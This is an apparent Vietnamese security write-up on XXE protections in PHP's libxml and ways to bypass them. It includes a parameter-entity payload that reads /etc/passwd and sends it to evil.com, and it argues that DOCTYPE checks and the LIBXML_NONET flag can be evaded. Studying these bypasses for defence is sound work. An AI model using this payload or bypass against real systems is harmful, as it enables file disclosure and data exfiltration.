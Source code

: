 => **ENTITY không hoạt động luôn**, vô hiệu hóa basic XXE như `&xxe;`.

#### **#2 – `LIBXML_DTDLOAD` cho phép load DTD nội bộ hoặc external**
Nhưng **không cho phép nested entity** (ENTITY trong ENTITY) như payload này:
```xml
<!ENTITY % data SYSTEM "file:///etc/passwd">
<!ENTITY % eval SYSTEM "<!ENTITY &#x25; exf SYSTEM 'http://evil.com/?%data;'>">
%eval;
%exf;
```
❗ Sẽ bị **warning** nhưng không thực thi — vì **thiếu `LIBXML_NOENT` hoặc `LIBXML_DTDVALID`**, nên ENTITY sẽ **không được mở rộng hay chèn vào nhau.**

#### #3 – `LIBXML_NONET`
✅ **Chặn mọi kết nối mạng** ,nên không thể dùng `SYSTEM "http://evil.com"` để đẩy dữ liệu ra ngoài `(OOB XXE, SSRF...)`  
→ Mọi external entity trỏ ra HTTP đều fail.
#### #4 – Chặn `<!DOCTYPE>`
 `XML_DOCUMENT_TYPE_NODE` là node kiểu DOCTYPE → tức là nếu có `<!DOCTYPE>` thì nó detect và chặn luôn.
→ Vì **mọi payload XXE đều cần DTD**, nên cách này giống như firewall chặn từ vòng gửi xe 🚫

Đoạn code trên tạm an toàn đến khi gặp payload này:
![](http://note.bksec.vn/pad/uploads/a8b8e009-afc3-4167-a8d9-199fa7b26780.png)

### Bypass,bypass và bypass
**PHP tưởng đã fix XXE rồi, nhưng thực ra vẫn có lỗ hổng nếu dev:**
-   Parse XML 2 lần    
-   Dùng `LIBXML_DTDLOAD` (cho phép tải DTD)
-   Và tưởng `LIBXML_NONET` sẽ chặn network

#### 1. Bypass điều kiện `<!DOCTYPE`
Bypass `<!DOCTYPE` condition là bước đơn giản nhất.
Dù code có chặn `DOCTYPE`, nếu dùng **parameter entity (`%xxe;`)**, thì payload vẫn có thể **được thực thi sớm**, **ngay trong lúc gọi `loadXML()`**, trước khi code kịp check kiểu node do **Parameter Entity (`%xxe;`) là loại đặc biệt**, nó được xử lý **ngay khi parser đọc DTD**.
Tóm lại: Check `nodeType === XML_DOCUMENT_TYPE_NODE` là quá muộn. Nếu payload dùng Parameter Entity (`%xxe;`), nó sẽ thực thi NGAY lúc gọi `loadXML()` – check gì cũng vô nghĩa sau đó.

#### 2. Bypass `LIBXML_NONET`
Khi bật flag `LIBXML_NONET` ,nếu URI bắt đầu bằng `http://` , parser sẽ không tải external entity để tránh XXE/SSRF.
```C
// parserInternals.c

static xmlParserInputPtr
xmlDefaultExternalEntityLoader(const char *url, const char *ID,
                               xmlParserCtxtPtr ctxt)
{
    …
    // `LIBXML_NONET` flag in PHP, is the same as `XML_PARSE_NONET` flag in libxml2
    if ((ctxt != NULL) && (ctxt->options & XML_PARSE_NONET) && 
        // no-net "protection":
        (xmlStrncasecmp(BAD_CAST url, BAD_CAST "http://", 7) == 0)) { // [1]
        
        xmlCtxtErrIO(ctxt, XML_IO_NETWORK_ATTEMPT, url);
    } else {
        input = xmlNewInputFromFile(ctxt, url);
    }
    …
}
```
